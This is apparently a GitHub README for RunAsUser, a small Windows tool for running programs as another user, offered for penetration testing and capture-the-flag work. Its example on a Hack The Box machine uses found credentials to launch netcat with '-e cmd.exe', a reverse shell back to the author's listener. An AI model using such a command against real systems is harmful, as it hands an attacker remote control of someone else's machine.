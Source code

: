 # RunAsUser

**Advisory**
All the binaries/scripts/code of RunAsUser should be used for authorized penetration testing and/or educational purposes only. Any misuse of this software will not be the responsibility of the author or of any other collaborator. Use it at your own networks and/or with the network owner's permission.
* * *

**Binary already compiled in Releases if you want to use that.**
* * *

**Whats the purpose?**

RunAsUser was designed to make it easy to execute programs on Windows as another user. In CTF exercises you may come across credentials for another user. Unlike Linux there isn't the functionality to "su" to switch user.

There are ways to already do this with PowerShell. However I have found that in some CTF exercises you may be presented with limited or no PowerShell functionality. CMD also has the ability to execute programs as another user but again I have experienced problems trying to use that.

I have used this in a few boxes now and found it very useful. In fact, I made this application because I faced a very specific issue and other solutions wouldn't work.

It is a quick and dirty tool but does the job. I may come back to it and update it at some point.

**How to run**

So an example machine you can use this on is - HTB JSON.

Found the credentials for the admin user. I had issues trying to run a PowerShell terminal from what I remember, so I used this. I know I could have done this particular box lots of other ways but on other machines you may not be so fortunate and it was a good excuse to use this tool again.

First I uploaded RunAsUser.exe and then executed the below command.

```
RunAsUser.exe -u superadmin -p funnyhtb -f c:\users\public\nc.exe -a '10.10.14.12 9001 -e cmd.exe'
```

This command then executed `nc.exe` as the `superadmin` user and it connected back to my listener.

To view the help, simply run the tool with either `-h` or `--help`.

You may also just run the tool and you will be prompted at each step for the arguments you wish to supply.
